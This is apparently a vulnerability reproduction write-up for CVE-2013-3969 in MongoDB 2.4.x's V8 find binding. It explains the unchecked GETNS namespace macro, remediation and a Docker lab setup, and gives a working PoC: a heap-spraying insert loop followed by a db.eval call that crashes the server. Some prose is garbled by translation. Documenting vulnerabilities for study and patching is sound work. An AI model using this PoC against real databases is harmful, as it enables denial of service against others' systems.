


# CVE-2013-3969 CWE-399 MongoDB Resource Management Error

## Vulnerability Background
- **scripting/engine_v8.h**: A header file in MongoDB source code, mainly used to define and manage the interface between MongoDB and the Google V8 JavaScript engine. Specifically, it contains declarations for initializing the V8 environment, executing JavaScript code, and managing scripting engine-related data structures and functions. In MongoDB, JavaScript is widely used for server-side script execution (such as `db.eval()` commands), and this header file is a key part supporting this functionality. By integrating the V8 engine, MongoDB can run JavaScript scripts directly within the database, providing more flexible query and data manipulation capabilities.
- **Database Spraying Technique:** A technique that exploits database vulnerabilities for attacks. It interferes with the normal operation of the database or acquires sensitive information by inserting malicious code or data into the database. This technique is commonly used to exploit vulnerabilities for purposes such as denial-of-service, data leaks, or arbitrary code execution.

## Vulnerability Mechanism
From MongoDB 2.4.0 to 2.4.4, its JavaScript scripting engine used the V8 engine to handle internal script calls. The vulnerability appears in the **find prototype** implementation. Attackers exploit this vulnerability by exploiting a maliciously constructed RefDB object to trigger uninitialized pointer dereference, causing the server to crash (DoS)

## Vulnerability Location
1. The `mongoFind` method in file **src\mongo\scripting\v8_db.cpp** line **165** is used to perform query operations in MongoDB. It exposes MongoDB's query functionality to a JavaScript environment through the V8 JavaScript engine. At line **169**, the `GETNS;` macro will parse the `args[0]` into a "namespace" (e.g., in `"dbName.collectionName"` form) for database queries. In the subsequent call `conn->query(ns.get(), …)` at line **183**, if the `ns` is not properly initialized (due to `args[0]` being invalid or maliciously constructed), the `ns.get()` may return an invalid pointer or point to the attack data after the jet, causing crashes or memory corruption.

```cpp
/**
 * JavaScript binding for Mongo.prototype.find(namespace, query, fields, limit, skip)
 */
v8::Handle<v8::Value> mongoFind(V8Scope* scope, const v8::Arguments& args) {
    argumentCheck(args.Length() == 7, "find needs 7 args")
    argumentCheck(args[1]->IsObject(), "needs to be an object")
    DBClientBase * conn = getConnection(args);
    GETNS;   // <-- Here, args[0] is interpreted as a namespace, but the type and content of args[0] are not verified
    BSONObj fields;
    BSONObj q = scope->v8ToMongo(args[1]->ToObject());
    bool haveFields = args[2]->IsObject() &&
                      args[2]->ToObject()->GetPropertyNames()->Length() > 0;
    if (haveFields)
        fields = scope->v8ToMongo(args[2]->ToObject());

    v8::Local<v8::Object> mongo = args.This();
    auto_ptr<mongo::DBClientCursor> cursor;
    int nToReturn = (int)(args[3]->ToNumber()->Value());
    int nToSkip = (int)(args[4]->ToNumber()->Value());
    int batchSize = (int)(args[5]->ToNumber()->Value());
    int options = (int)(args[6]->ToNumber()->Value());
    cursor = conn->query(ns.get(), q,  nToReturn, nToSkip, haveFields ? &fields : 0,
                            options, batchSize);
    if (!cursor.get()) {
        return v8AssertionException("error doing query: failed");
    }

    v8::Function* cons = (v8::Function*)(*(mongo->Get(scope->v8StringData("internalCursor"))));

    if (!cons) {
        return v8AssertionException("could not create a cursor");
    }

    v8::Persistent<v8::Object> c = v8::Persistent<v8::Object>::New(cons->NewInstance());
    c->SetInternalField(0, v8::External::New(cursor.get()));
    scope->dbClientCursorTracker.track(c, cursor.release());
    return c;
}
```

2. At line **36**, `GETNS` macro is used to extract namespace information from the incoming parameters and store it in a C++ `char` array. However, here there is no check to determine whether `args[0]` is truly a string, whether it is empty, or whether it contains invalid characters.

```cpp
#define GETNS boost::scoped_array<char> ns(new char[args[0]->ToString()->Utf8Length()+1]); \
              args[0]->ToString()->WriteUtf8(ns.get());
```

Key causes of vulnerabilities in the source code: **Lack of strict type or content verification for the first parameter (namespace), direct use of `GETNS` to interpret and pass to `conn->query`**, and use database injection technology to write large amounts of specific bytes of data into collections and overwrite memory with this data. When the namespace parameter is not validated, malicious data may be passed into GETNS as a valid string, causing usable memory corruption or out-of-bounds access.

## Remediation
Strict parameter types and content validation, especially checking namespace parameters (args[0]), ensure GETNS receives a properly constructed namespace string; At the same time, similar checks were performed on numeric parameters and object transformations, thereby avoiding vulnerabilities in the original code caused by the use of uninitialized or illegal memory.

## Affected Versions
MongoDB 2.4.0 to 2.4.4

## Environment Setup
Start the Docker environment, MongoDB version 2.4.4, initial database is test, username is admin, password is password



## Vulnerability Reproduction
> **Vulnerability Exploitation Approach**:
> By inserting a large number of specific binary blocks (0x1338 bytes long, containing `\x05\x7c\x77\x55...`), it leaves controllable data in the MongoDB process's heap or mapping file.
>
> **Related `GETNS`**:
> When calling `find("a",...)`, if the engine encounters errors or fails to check `args[0]` parsing, it may extract this batch of controllable data from the heap as "namespaces" or related objects for use, triggering uninitialized pointer dereference or overriding key pointers (typical manifestations: EIP override, segment error).

1. Enter the container command line and use the mongo command to directly connect to the database test

2. When executing the command, 30,000 data entries are inserted into the `my_collection` collection, aiming to disrupt memory layout and create conditions for vulnerability triggering

```bash
sizechunk=0x1338; chunk=""; for(i=0;i<sizechunk;i++){ chunk+="\x05\x7c\x77\x55\x08\x04\x00\x00"; } for(i=0;i<30000;i++){ db.my_collection.insert({my_chunk:chunk}) }
```

3. When executing commands, it calls the `find()`, allowing the malicious payload to be executed

```bash
db.eval('Mongo.prototype.find("a",{"b":"c"},"d","e","f","g","h")'); 
```

4. Check the container status again; you will see that the container has been exited



## PoC Analysis

```bash
sizechunk=0x1338; chunk=""; for(i=0;i<sizechunk;i++){ chunk+="\x05\x7c\x77\x55\x08\x04\x00\x00"; } for(i=0;i<30000;i++){ db.my_collection.insert({my_chunk:chunk}) }
```

This part of the code constructs a string up to 0x1338 bytes (about 4,920 bytes), repeatedly filling specific binary data, and then inserts 30,000 records into `my_collection` collection. The purpose of this is to:

- **Memory Filling**: Large data insertions may alter memory allocation and layout.
- **Triggering Memory Vulnerabilities**: Exploiting uncertainty in data arrangement in memory to force MongoDB to trigger uninitialized pointer dereferences or other memory-related errors in subsequent calls

```bash
db.eval('Mongo.prototype.find("a",{"b":"c"},"d","e","f","g","h")'); 
```

This line of code uses `db.eval()` to execute JavaScript on the server side. Here, the `Mongo.prototype.find` method is called, which has vulnerabilities within MongoDB that may cause references to uninitialized pointers or other memory corruption issues after passing in exception parameters.

`find("a",{b:"c"},"d","e","f","g","h")` deliberately used the seemingly normal string `"a"` as the first parameter, but after a massive memory overflow in the background, MongoDB tried to interpret this parameter as a namespace and accessed it, but it ended up at an invalid address populated by the attacker.

## References
[MongoDB - 'conn' Mongo Object Remote Code Execution - Multiple remote Exploit](https://www.exploit-db.com/exploits/38669)

[mongodb – RCE by databaseSpraying – SCRT Team Blog --- mongodb – RCE by databaseSpraying – SCRT Team Blog](https://blog.scrt.ch/2013/06/04/mongodb-rce-by-databasespraying/)

[Find the prototype in the scripting/engine_v8.h script in MongoDB 2...... CVE-2013-3969 · GitHub Security Bulletin Database --- The find prototype in scripting/engine_v8.h in MongoDB 2... · CVE-2013-3969 · GitHub Advisory Database](https://github.com/advisories/GHSA-27xw-phm9-jmx3)

[SERVER-9878 Add type checks to V8 C++ bindings · mongodb/mongo@7c1b35e](https://github.com/mongodb/mongo/commit/7c1b35e0b2cc69c93074c6d1d76879b3ed525f56#diff-a210d8709e758122de7ca2b6d27938c5b09d53bd885ae3015bdf16d964921eae)
